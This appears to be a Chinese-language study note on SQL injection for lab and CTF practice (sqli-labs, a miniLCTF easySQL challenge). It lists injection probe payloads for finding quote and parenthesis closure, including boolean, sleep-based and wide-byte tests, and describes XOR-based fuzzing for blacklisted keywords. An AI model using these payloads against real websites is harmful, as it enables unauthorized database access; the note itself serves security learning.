 # sqllabs

[https://www.freebuf.com/articles/web/271772.html](https:_www.freebuf.com_articles_web_271772)

[https://blog.csdn.net/weixin_47306547/article/details/120187148](https://blog.csdn.net/weixin_47306547/article/details/120187148)

# 初步探测

## 判断闭合情况

```python
?id=1' 
?id=1" 
?id=1') 
?id=1") 
?id=1' or 1#
?id=1' or 0#
?id=1' or 1=1#
?id=1' and 1=2#
?id=1' and sleep(5)#
?id=1' and 1=2 or ' 
?id=1\
宽字节
%df%27
```

特例闭合情况

参考西电2022miniLCTFeasySQL。给了如下sql语句

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335103-26535539-d0b1-4272-9ae5-5cecd1885f58.png#averageHue=%23f6f5f4&id=GPpNw&originHeight=77&originWidth=976&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

黑名单过滤颇多

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335197-c22577e4-a5e2-4351-be28-a5a1da2bef28.png#averageHue=%23fcfafa&id=k9nMo&originHeight=470&originWidth=863&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

这里的闭合情况就是先转义逃离，再截断，再用分号。因为注释符号都没有了

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335398-32ada51b-2165-428a-9ff2-aa01d508b2aa.png#averageHue=%23f5f4f4&id=ssV1Y&originHeight=192&originWidth=1001&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

接下来就是简单的mysql8注入了

## fuzz关键字

### 利用异或进行fuzz

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335483-45096fa7-905c-4f79-9e21-8e62973f6350.png#averageHue=%23fafaf9&id=FmQl1&originHeight=177&originWidth=480&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

现在也页面当是1的时候报错，当是0的时候正常。这个时候就可以尝试用来判断被ban的关键字
